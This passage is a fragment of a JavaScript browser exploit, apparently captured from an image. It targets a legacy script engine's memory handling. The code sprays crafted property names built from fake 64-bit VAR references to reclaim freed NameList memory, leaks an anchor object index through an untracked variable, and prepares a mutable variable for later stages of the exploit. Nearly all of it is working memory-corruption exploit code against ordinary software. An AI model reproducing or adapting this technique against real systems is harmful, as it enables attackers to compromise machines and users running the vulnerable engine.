         // Re-claim with VAR-referencing-VAR NameLists

        var PrimaryVvalPropName = "AAAAAAAA"; // 16 bytes for size of GcBlock double linked list pointers

        for(var i = 0; i < 46; i++) {
            PrimaryVvalPropName += CreateVar64(0x80, LeakedVvalAddress.low, LeakedVvalAddress.high, 0, 0); // Type 0x80 is a VAR reference
        }

        while(PrimaryVvalPropName.length < 0x239) PrimaryVvalPropName += "A";

        // Re-claim with leaked VVAL address vars (to be dereferenced for anchor object index extraction)

        NewUntrackedVarSet();

        for(var i = 0; i < NameListAnchorCount; i++) {
            NameListAnchors[i][PrimaryVvalPropName] = 1;
        }

        // Extract NameList anchor index through untracked var dereference to leaked VVAL prefix VAR

        var LeakedVvalVar;

        for(var i = 0; i < UntrackedVarSet.length; i++) {
            if(typeof UntrackedVarSet[i] === "number") {
                LeakedAnchorIndex = parseInt(UntrackedVarSet[i] + ""); // Attempting to access the untracked var without parseInt will fail ("null or not an object")
                LeakedVvalVar = UntrackedVarSet[i]; // The + "" trick alone does not seeem to be enough to populate this with the actual value
                break;
            }
        }

        DebugLog("Leaked anchor object index: " + LeakedAnchorIndex.toString(16));

        // Verify that the VAR within the leaked VVAL can be influenced by directly freeing/re-claiming the NameList associated with the leaked NameList anchor object (whose index is now known)

        ReClaimNameList(0x11, "A");

        if(LeakedVvalVar + "" != 0x11) {
            DebugLog("Failed to extract final VVAL index via re-claim");
            return 0;
        }

        // Create the mutable variable which will be used throughout the remainder of the exploit and re=claim with VAR-referencing-VAR to it for dereference

        ReClaimNameList(0, CreateVar64(0x3, 0x22, 0, 0, 0));
        PrimaryVvalPropName = "AAAAAAAA"; // 2 wide chars (4 bytes) plus the 4 byte BSTR length gives 8 bytes: the size of the two GcBlock linked list pointers. Everything after this point can be fake VARs and a tail padding.

        for(var i = 0; i < 46; i++) {
            PrimaryVvalPropName += CreateVar64(0x80, LeakedVvalAddress.low + 0x40, LeakedVvalAddress.high, 0, 0); // +0x40 is the offset to property name field of 64-bit VVAL struct. Type 0x80 is a VAR reference
        }

        while(PrimaryVvalPropName.length < 0x239) PrimaryVvalPropName += "A"; // Dynamically pad the end of the proeprty name to correct length
